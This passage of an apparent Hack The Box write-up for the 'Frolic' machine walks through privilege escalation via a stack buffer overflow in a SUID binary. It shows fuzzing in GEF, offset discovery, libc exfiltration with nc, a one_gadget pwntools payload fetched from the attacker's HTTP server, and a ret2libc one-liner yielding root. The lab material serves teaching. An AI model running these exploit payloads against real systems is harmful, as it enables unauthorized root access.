    Fortify                       : No
    RelRO                         : Partial
    
     

one thing to note is that when we run the checksec command onto the rop binary within GEF, we see that the NX bit is enabled, which means that we won't be able to execute shellcode on the stack. 
    
    
    
       gef➤  run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae
       Starting program: /home/nihilist/_HTB/Frolic/rop Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae
    
       Program received signal SIGSEGV, Segmentation fault.
       0x62413762 in ?? ()
       [ Legend: Modified register | Code | Heap | Stack | String ]
       ───────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
       $eax   : 0x80
       $ebx   : 0xffffd2c0  →  "4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae"
       $ecx   : 0xffffd220  →  0xf7f8ece0  →  0xfbad2a84
       $edx   : 0xffffd2d8  →  0xf7f8de00  →  0x00000000
       $esp   : 0xffffd290  →  "8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4A[...]"
       $ebp   : 0x41366241 ("Ab6A"?)
       $esi   : 0xf7f8de24  →  0x001e2d2c (",-"?)
       $edi   : 0xf7f8de24  →  0x001e2d2c (",-"?)
       $eip   : 0x62413762 ("b7Ab"?)
       $eflags: [zero carry PARITY adjust SIGN trap INTERRUPT direction overflow RESUME virtualx86 identification]
       $cs: 0x0023 $ss: 0x002b $ds: 0x002b $es: 0x002b $fs: 0x0000 $gs: 0x0063
       ───────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
       0xffffd290│+0x0000: "8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4A[...]"	 ← $esp
       0xffffd294│+0x0004: "Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad[...]"
       0xffffd298│+0x0008: "c1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7[...]"
       0xffffd29c│+0x000c: "2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8A[...]"
       0xffffd2a0│+0x0010: "Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae[...]"
       0xffffd2a4│+0x0014: "c5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1[...]"
       0xffffd2a8│+0x0018: "6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae"
       0xffffd2ac│+0x001c: "Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae"
       ─────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
       [!] Cannot disassemble from $PC
       [!] Cannot access memory at address 0x62413762
       ─────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
       [#0] Id 1, Name: "rop", stopped, reason: SIGSEGV
       ───────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
       ────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       gef➤
    

looking at the results, we see that the program crashes with EIP set to 0x62413762. let's run pattern_offset.rb to find the offset of 0x62413762.
    
    
    λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Frolic ]
    → locate pattern_offset.rb
    /opt/metasploit/.tools/exploit/pattern_offset.rb
    /opt/metasploit/tools/exploit/pattern_offset.rb
    
    λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Frolic ]
    → /opt/metasploit/tools/exploit/pattern_offset.rb -q 0x62413762
    WARNING: Nokogiri was built against LibXML version 2.9.9, but has dynamically loaded 2.9.10
    [*] Exact match at offset 52
    

We seem to have an exact match at offset 52! back to our meterpreter session, we use either curl or wget to download the libc library locally.
    
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Frolic ]
    → nc -lvnp 4444 > libc
    
      listening on [any] 4444 ...
      connect to [10.10.14.23] from (UNKNOWN) [10.10.10.111] 59480
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Frolic ]
    → one_gadget -f libc rop
    
      0x3ac5c execve("/bin/sh", esp+0x28, environ)
      constraints:
        esi is the GOT address of libc
        [esp+0x28] == NULL
    
    

now that we have a gadget at 0x3ac5c, we should be able to get a shell. Although we need to find libc's base address, for that matter we will use the ldd command.
    
    
      $ ldd rop
    ldd rop
    	linux-gate.so.1 =>  (0xb7fda000)
    	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7e19000)
    	/lib/ld-linux.so.2 (0xb7fdb000)
    

And that's all we need ! we have the base address 0xb7e19000, now we are ready to write our exploit. 
    
    
      from pwn import *
    
      payload = "A" * 52 + p32(0xb7e19000+0x3ac5c)
    
      print payload
    

Running the exploit locally for it to generate the payload, we will then upload the payload onto the machine and it will give us a privilege escalation.
    
    
    λ root [ 10.10.14.48/23 ] [nihilist/_HTB/Frolic] → python exploit.py > payload
    
    λ root [ 10.10.14.48/23 ] [nihilist/_HTB/Frolic] → ls
    exploit.py  msf      rockyou.txt  zipfile.zip
    index.php   payload  rop
    
    λ root [ 10.10.14.48/23 ] [nihilist/_HTB/Frolic] → python2 -m SimpleHTTPServer 9001
    Serving HTTP on 0.0.0.0 port 9001 ...
    10.10.10.111 - - [05/Dec/2019 12:40:58] "GET /payload HTTP/1.1" 200 -
    
    
    
    $wget http://10.10.14.48:9001/payload
    --2019-12-05 12:42:22--  http://10.10.14.48:9001/payload
    Connecting to 10.10.14.48:9001... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 0 [application/octet-stream]
    Saving to: ‘payload.1’
    
    payload.1                        [ <=>                                           ]       0  --.-KB/s    in 0s
    
    2019-12-05 12:40:58 (0.00 B/s) - ‘payload.1’ saved
    
    $ /home/ayush/.binary/rop $(cat payload.1)
    /home/ayush/.binary/rop $(cat payload.1)
    
    # cat /root/root.txt
    cat root.txt
    85XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And that's it ! we have been able to print out the root flag.

Another even quicker way to get the root flag is to pass the addresses of SYSTEM, exit and /bin/sh directly to the rop binary itself.
    
    
    
    $ ./rop $(python -c 'print("a"*52 + "\xa0\x3d\xe5\xb7" + "\xd0\x79\xe4\xb7" + "\x0b\x4a\xf7\xb7")')
    ./rop $(python -c 'print("a"*52 + "\xa0\x3d\xe5\xb7" + "\xd0\x79\xe4\xb7" + "\x0b\x4a\xf7\xb7")')
    
    # whoami
    whoami
    root
    
    # cat /root/root.txt
    cat /root/root.txt
    85XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

## **Conclusion**

Here we can see the progress graph :

